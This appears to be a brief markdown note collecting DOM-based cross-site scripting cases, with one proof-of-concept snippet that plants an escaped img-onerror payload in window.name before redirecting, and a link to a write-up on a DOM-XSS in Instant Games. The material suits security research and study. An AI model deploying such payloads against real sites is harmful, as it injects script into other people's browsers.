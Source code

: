 ## case1
```
<script>window.name = '">\u003cimg\u0020src\u0020onerror=alert(12345678)\u003e';location = 'http://host/path/';</script>
```

## case2
[DOM-XSS in Instant Games due to improper verification of supplied URLs](https://ysamm.com/?p=779)

